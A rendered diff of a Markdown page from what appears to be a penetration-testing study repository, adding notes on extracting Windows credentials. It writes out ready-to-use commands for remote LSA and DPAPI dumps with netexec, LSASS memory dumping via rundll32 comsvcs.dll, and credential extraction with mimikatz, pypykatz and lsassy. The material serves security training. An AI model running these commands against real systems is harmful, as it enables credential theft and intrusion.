

Before and after one commit to HackingNaTuga/Zero2PwnTest, a Markdown page: Passwords/3_extracting_passwords_windows.md, the part around one of its changes. Shown at 82% size. Rendered like a GitHub page; blank space fills up the shorter version.

`````diff
--- a/Passwords/3_extracting_passwords_windows.md
+++ b/Passwords/3_extracting_passwords_windows.md
@@ -47,8 +54,68 @@ In addition to the DCC2 hashes, we previously saw that the machine and user keys
 | Credential Manager        | Saved credentials for accessing shared resources, joining Wireless networks, VPNs and more.  |
 
 DPAPI encrypted credentials can be decrypted manually with tools like Impacket's dpapi, mimikatz, or remotely with DonPAPI.
-
 ````
 C:\Users\Public> mimikatz.exe
 mimikatz # dpapi::chrome /in:"C:\Users\bob\AppData\Local\Google\Chrome\User Data\Default\Login Data" /unprotect
 ````
+Dump lsa & dpapi Remote
+````
+$ netexec smb <IP> --local-auth -u <user> -p <password> --lsa
+$ netexec smb <IP> -u <user> -p <password> --dpapi
+$ netexec smb <IP> -u <user> -p <password> --dpapi cookies
+$ netexec smb <IP> -u <user> -p <password> --dpapi nosystem
+$ netexec smb <IP> -u <user> -p <password> --local-auth --dpapi nosystem
+````
+
+## LSASS
+
+We will also benefit from targeting the Local Security Authority Subsystem Service (LSASS). As covered in the Credential Storage section of this module, LSASS is a core Windows process responsible for enforcing security policies, handling user authentication, and storing sensitive credential material in memory.
+
+### Dumping LSASS process memory
+
+**Task Manager method**
+- Open Task Manager
+- Select the Processes tab
+- Find and right click the Local Security Authority Process
+- Select Create dump file
+
+A file called lsass.DMP is created and saved in %temp%. `cp <path_lsass.dmp> <directory_wanted>`
+
+**Rundll32.exe & Comsvcs.dll method**
+````
+> tasklist /svc (Find PID Lsass from cmd)
+> Get-Process lsass (Find PID Lsass from powershell)
+> rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
+````
+
+After extracting the process, we will copy it to our machine.
+
+**Pypykatz to extract credentials**
+````
+$ pypykatz lsa minidump /home/peter/Documents/lsass.dmp
+````
+
+**Mimikatz**
+````
+# privilege::debug
+# sekurlsa::logonpasswords
+# sekurlsa::logonPasswords full
+# sekurlsa::credman
+````
+
+**Dump Remote**
+````
+$ nxc smb <IP> -u <user> -p '<password>' -M lsassy
+
+````
+
+## Windows Credential Manager
+
+Credential Manager is a feature built into Windows since Server 2008 R2 and Windows 7. Thorough documentation on how it works is not publicly available, but essentially, it allows users and applications to securely store credentials relevant to other systems and websites.
+
+- %UserProfile%\AppData\Local\Microsoft\Vault\
+- %UserProfile%\AppData\Local\Microsoft\Credentials\
+- %UserProfile%\AppData\Roaming\Microsoft\Vault\
+- %ProgramData%\Microsoft\Vault\
+- %SystemRoot%\System32\config\systemprofile\AppData\Roaming\Microsoft\Vault\
+
`````
Also changed, not shown: other parts of Passwords/3_extracting_passwords_windows.md (+70 -4 lines).
